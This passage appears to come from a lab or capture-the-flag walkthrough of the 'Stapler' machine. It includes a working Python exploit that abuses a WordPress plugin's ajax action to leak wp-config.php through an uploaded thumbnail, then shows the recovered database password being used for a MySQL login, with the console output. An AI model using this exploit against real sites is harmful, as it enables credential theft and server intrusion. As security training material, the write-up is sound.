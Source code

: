 ```py
import ssl

ssl._create_default_https_context = ssl._create_unverified_context
url = "https://192.168.211.148:12380/blogblog" # insert url to wordpress

randomID = long(random.random() * 100000000000000000L)

objHtml = urllib2.urlopen(url + '/wp-admin/admin-ajax.php?action=ave_publishPost&title=' + str(randomID) + '&short=rnd&term=rnd&thumb=../wp-config.php')
content =  objHtml.readlines()
for line in content:
	numbers = re.findall(r'\d+',line)
	id = numbers[-1]
	id = int(id) / 10

objHtml = urllib2.urlopen(url + '/?p=' + str(id))
content = objHtml.readlines()

for line in content:
	if 'attachment-post-thumbnail size-post-thumbnail wp-post-image' in line:
		urls=re.findall('"(https?://.*?)"', line)
		print urllib2.urlopen(urls[0]).read()
```

Add the url as per the target page and run the python code. Upon successfull running of the exploit direct to [https://192.168.208.148:12380/blogblog/wp-content/uploads/](https://192.168.208.148:12380/blogblog/wp-content/uploads/) URL and find there is a image file located.

Download the image and use grep to search for string `password`. The exploit extracts the `wp-config.php` file contents as images file.

```text
define('DB_USER', 'root');
define('DB_PASSWORD', 'plbkac')
```

Login to sql server using the credentials and extract wordpress username and hash of an administrative user.

## 3306/tcp - open  mysql - MySQL 5.7.12-0ubuntu1

Login the to sql server using the above extracted credentials.

```sh
naveenj@hackerspace:|01:27|~/proving_grounds/Stapler/files/img$ mysql -u root -pplbkac -h 192.168.208.148
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 9
Server version: 5.7.12-0ubuntu1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| loot               |
| mysql              |
| performance_schema |
| phpmyadmin         |
| proof              |
| sys                |
| wordpress          |
```